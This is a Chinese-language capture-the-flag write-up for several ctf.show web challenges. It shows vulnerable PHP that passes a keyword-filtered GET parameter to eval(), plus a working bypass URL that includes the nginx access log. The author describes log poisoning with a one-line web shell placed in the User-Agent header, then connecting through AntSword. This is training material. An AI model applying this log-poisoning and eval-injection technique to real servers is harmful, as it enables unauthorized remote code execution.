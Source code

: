 ```PHP
<?php  
  
/*  
# -*- coding: utf-8 -*-  
# @Author: h1xa  
# @Date:   2020-09-04 00:12:34  
# @Last Modified by:   h1xa  
# @Last Modified time: 2020-09-04 04:21:29  
# @email: h1xa@ctfer.com  
# @link: https://ctfer.com  
*/  
  
error_reporting(0);  
if(isset($_GET['c'])){
	$c = $_GET['c'];  
    if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(|\:|\"/i", $c)){  
        eval($c);  
    }
}else{
	highlight_file(__FILE__);  
}
```

同样的招没啥变化
![[Pasted image 20240824195533.png]]
![[Pasted image 20240824195628.png]]
# Web 35
![[Pasted image 20240824201251.png]]
这次我用用nginx日志文件
URL:
```
https://794ac7d7-087e-4e53-be4d-8497df5b083a.challenge.ctf.show/?c=include$_GET[a]?%3E&a=/var/log/nginx/access.log
```
HackBar上在User-Agent上插入一句话木马，让密码为`a`。
![[Pasted image 20240824202246.png]]
中国蚁剑连上背后的靶机：
![[Pasted image 20240824202436.png]]
已经看到了！
![[Pasted image 20240824202537.png]]
# Web 36
已经没啥挑战了，千篇一律：
![[Pasted image 20240824202937.png]]
# Web 37
```PHP
<?php  
  
/*  
# -*- coding: utf-8 -*-  
# @Author: h1xa  
# @Date:   2020-09-04 00:12:34  
# @Last Modified by:   h1xa  
# @Last Modified time: 2020-09-04 05:18:55  
# @email: h1xa@ctfer.com  
# @link: https://ctfer.com  
```